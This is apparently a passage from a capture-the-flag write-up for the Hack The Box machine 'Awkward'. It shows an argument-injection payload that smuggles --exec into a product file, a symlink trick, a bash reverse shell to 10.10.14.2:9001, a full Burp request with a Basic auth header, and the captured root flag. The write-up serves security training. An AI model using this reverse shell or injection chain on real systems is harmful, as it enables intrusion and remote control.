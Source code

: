 ```
" --exec='!/dev/shm/script.sh'
```

Changing jwt to include the payload, and sending it through gives `bad characters detected` :( The bad char is the `!`

Instead lets try to write to the file.

We can make a sim link.
```bash
ln -s /var/www/private/leave_requests.csv test
```

We could also try to create a malicious item, which would bypass the bad chars.
```bash
bean@awkward:/var/www/store/product-details$ cat 4.txt 
***Hat Valley Product***
" --exec='!/dev/shm/script.sh' "
```

Create the rev shell
```bash
bash -i >& /dev/tcp/10.10.14.2/9001 0>&1

```

Then send the request in burp suite:
```http
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 32
Origin: http://store.hat-valley.htb
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close
Referer: http://store.hat-valley.htb/shop.php

item=4&user=test&action=add_item
```

Which gives a shell. :)

root.txt

(I forgot to grab the flag so I had to do everything again. :|

```
10fd9d46166ed8990bf51d6de19f461d
```